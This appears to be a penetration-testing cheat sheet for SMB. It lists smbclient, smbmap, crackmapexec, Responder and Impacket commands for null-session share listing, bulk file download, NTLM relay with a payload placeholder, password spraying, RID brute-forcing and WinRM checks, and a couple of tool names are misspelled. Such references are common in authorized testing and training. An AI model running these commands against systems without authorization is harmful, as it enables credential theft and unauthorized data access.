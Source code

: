```yaml
---
icon: database
---
```


# SMB

```bash
#Connect
smbclient --no-pass //IP/<Share>

smbmap -H <IP>
#List Share
smbmap -H <IP> -r <SHARE>
#Resources List for null session
smbclient -N <IP>
#Resources List
smbclient -L <IP>
```

<mark style="color:purple;">**Download Files:**</mark>

```python
#In this order
recurse
prompt
mget *
```

<mark style="color:purple;">**Check files attributes**</mark>

```
allinfo
```

<mark style="color:purple;">**Check Authentication**</mark>

```bash
#SMB Relay
responder -I eth0 -dwv

#Impacket
impacket-ntrlrelayx -tf target.txt -smb2support -c <payload>

```

### <mark style="color:purple;">With Credentials</mark>

<mark style="color:purple;">**SMB Credential Check**</mark>

```bash
cracmapexec smb <IP> -u usernames -p passwords

#List
crackmapexec smb <IP> -u '' -p '' --shares
```

<mark style="color:purple;">**SMB User enumeration**</mark>

```python
crackmapexec smb <IP> -u <USER> -p <PASSWORD> --rid-brute

#Full Enumeration
crackmapexec smb <IP> -u usernames -p passwords --continue-on-success
#DNS
smbmap -H <IP> -d <dns> -u '<user>' -p '<pass>'

#Connect to share
smbclient -N \\\\IP\Share

#List share
smbclient //IP/<SHARE> -U <USER>

#Download Share
smbget -U <User> smb://IP/<SHARE_LOCATION> / --download
```

<mark style="color:purple;">**SMB RMU (REMOTE MANAGEMENT USER)**</mark>

```python
crackmapexec winrm <IP> -u <USER> -p <PASSWORD>
```

<mark style="color:purple;">**Impacket**</mark>

```
impacket-smbclient <IP>/user:password@address
```
